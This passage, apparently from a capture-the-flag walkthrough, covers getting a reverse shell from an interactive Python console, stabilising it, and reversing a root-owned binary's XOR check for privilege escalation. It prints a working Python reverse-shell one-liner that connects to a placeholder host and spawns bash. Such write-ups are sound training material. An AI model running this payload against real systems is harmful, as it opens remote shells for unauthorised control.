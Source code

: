 We got an interactive python console, let's send ourselves a reverse shell and check if it works:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```





![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509115732.png)


If we check our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509115746.png)

There we go, let's proceed to privilege escalation.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509115852.png)

With our stable shell, we can now look around the machine, let's use linpeas:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509121448.png)

We got a `try-harder` binary owned by root on our home directory, let's check it out using `ghidra`:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250509121742.png)

As seen, in the main function, we got an interesting finding, The binary checks if our input satisfies the equation:  


```c
(input ^ 0x1116 ^ 0x56b3) = 0x56c021f4
```


If it does, we will get a shell as root, the program XORs the user input with two hardcoded constants and compares it to a known value. let's automate the process of getting the magic number with this python script:
